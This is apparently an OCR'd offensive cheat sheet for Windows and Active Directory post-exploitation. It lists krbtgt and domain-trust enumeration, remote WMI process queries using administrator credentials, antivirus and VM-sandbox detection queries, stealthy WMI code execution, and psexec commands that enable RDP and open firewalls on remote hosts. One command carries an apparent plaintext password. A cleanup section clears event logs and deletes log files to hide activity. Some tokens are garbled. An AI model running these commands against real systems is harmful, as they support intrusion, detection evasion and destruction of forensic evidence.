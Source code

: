 ```bat
        -search network for host user "admin" is on
    get-aduser -filter {name -like "krbtgt*"} -prop Name,Created,PasswordLastSet,msDS-KeyVersionNumber,msDS-KrbTgtLinkB1
        -get information for krbtgt active directory domain account
    Get-ADForest | Select Domains
        -enum domains in an AD forest
    Get-ADDomain | FL NetBIOSName
        -get netbios name of an AD domain
    Get-ADTrust -filter *
 
Powershell x WMIC
    wmic.exe
Powershell WMI cmdlets
-- Get-WmiObject
-- Get-CimAssociatedInstance
-- Get-CimClass
-- Get-CimInstance
-- Get-CimSession
-- Set-WmiInstance
-- Set-CimInstance
-- Invoke-WmiMethod
-- Invoke-CimMethod
-- New-CimInstance
-- New-CimSession
-- New-CimSessionOption
-- Register-CimIndicationEvent
-- Register-WmiEvent
-- Remove-CimInstance
-- Remove-WmiObject
-- Remove-CimSession
Get-WmiObject -Class Win32_Process -ComputerName 192.168.72.134 -Credential ‘WIN-B85AAA7ST4U\Administrator'
Get-WmiObject -Namespace root\SecurityCenter2 -Class AntiVirusProduct
    -av detection
SELECT * FROM Win32_ComputerSystem WHERE TotalPhysicalMemory < 2147483648
SELECT * FROM Win32_ComputerSystem WHERE NumberOfLogicalProcessors < 2
SELECT * FROM Win32_NetworkAdapter WHERE Manufacturer LIKE “%VMware%”
SELECT * FROM Win32_BIOS WHERE SerialNumber LIKE “%VMware%”
SELECT * FROM Win32_Process WHERE Name=”vmtoolsd.exe”
SELECT * FROM Win32_NetworkAdapter WHERE Name LIKE “%VMware%”
    -vm detection
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList ‘notepad.exe’
    -code execution, like psexec but stealthier
       
SYSINTERNALS
PSEXEC
psexec /?
psexec -accepteula
psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
psexec \\10.2.2.23 netsh firewall set service remoteadmin enable
psexec \\JAMES -u james -p FmyN3rZ37LNss2X netsh firewall set service remoteadmin enable
 
CLEANUP
wevtutil el
    -list logs
wevtutil cl log.log
    -clear specific lowbadming
del %WINFRT%\*.log /a /s /q /f
 
ADVANCED
DRIVERQUERY
 
```